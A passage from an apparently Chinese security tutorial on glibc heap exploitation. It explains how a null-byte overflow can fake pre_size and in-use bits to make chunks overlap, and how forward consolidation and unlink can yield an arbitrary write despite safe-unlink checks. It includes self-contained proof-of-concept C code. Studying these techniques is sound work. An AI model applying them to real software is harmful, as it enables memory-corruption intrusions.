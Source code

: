 ```
*/
A[0x100 - 8] = 0x00;
//change the pre_size of B (in A's own memory)
A[0xF0] = 0x20;
A[0xF1] = 0x02;
A[0xF2] = 0x00;
A[0xF3] = 0x00;
A[0xF4] = 0x00;
A[0xF5] = 0x00;
A[0xF6] = 0x00;
A[0xF7] = 0x00;
 
printf("before trigger vul, A: %s\n", A);
printf("before trigger vul, fast: %s\n", fast);
 
free(x);//aovid the safe unlinking when merge from x->B
free(B);//merge from x to B . Then overlap fast and A
char *new = malloc(0x150 - 8);
memset(new,'w',0x150 - 8);
printf("after trigger vul, A: %s\n", A);
printf("after trigger vul, fast: %s\n", fast);
}
```

**方法三：**

上面的几个方法都是造成内存重叠，但null byte溢出同样可以构造DW shoot。我们接下来借助前向融合和后向融合两个方法来介绍怎么构造DW shoot。

**前向融合：**

和上面的那个思路基本是一致的。即通过修改pre_size和pre_inuse，让libc错误的认为前一个相邻的堆块处于释放状态。然后在释放操作时，会把前一个堆块从freelist上取下来，这样会有一个unlink的操作，就可以构造DW shoot了。

[![](http://image.3001.net/images/20151229/14513697808985.png!small "8.png")](http://image.3001.net/images/20151229/14513697808985.png)



如上图所示，通过在堆块A中修改pre_size，可以让libc在释放堆块B时，错误的定位到我们伪造的“前一个”堆块头部。然后我们可以通过fd和bk指针构造DW shoot了。但是这时需要考虑一个safe unlink的问题。我们在上一个章节中的“堆块的释放过程”一节中已经介绍了safe unlink的机制。因此，我们不能随意指定pre_size了，因为根据pre_size找到的错误的堆块地址必须能存储在程序的某个变量位置。一般来说，程序都会有个管理结构，用于管理一些数据。

[![](http://image.3001.net/images/20151229/14513697805117.png!small "9.png")](http://image.3001.net/images/20151229/14513697805117.png)



如上图所示，用户申请堆块时，libc把alloc ptr位置而不是整个堆块的起始位置（free ptr）返回给用户，用户可以从这个指针的地址开始定义堆上的数据。当堆块释放之后，各种空闲链表上的fd或bk指针存储的是整个堆块的起始位置，即free ptr位置（故safe unlink判断的是free ptr位置）。

程序一般会把用户数据做一些存储，故一般存储的是alloc ptr位置。故我们的pre_size应该是堆块A的长度减去size*2，即定位到alloc ptr处。

验证代码如下：

```
#include <stdlib.h>
long gl[0x40];
void main()
{
//set global var
memset(gl,'i',0x3F);
char * A, * B, * C;
A = malloc(0x100 - 8); //
memset(A,'a',0x100 - 8);
B = malloc(0x100 - 8); //
memset(B,'b',0x100 - 8);
C = malloc(0x200 - 8); // for stable
memset(C,'c',0x200 - 8);
//pre_size,pre_inuse bit must be 1
A[0x8]=0x11,A[0x9]=0x01,A[0xA]=0x00,A[0xB]=0x00,A[0xC]=0x00,A[0xD]=0x00,A[0xE]=0x00,A[0xF]=0x00;
```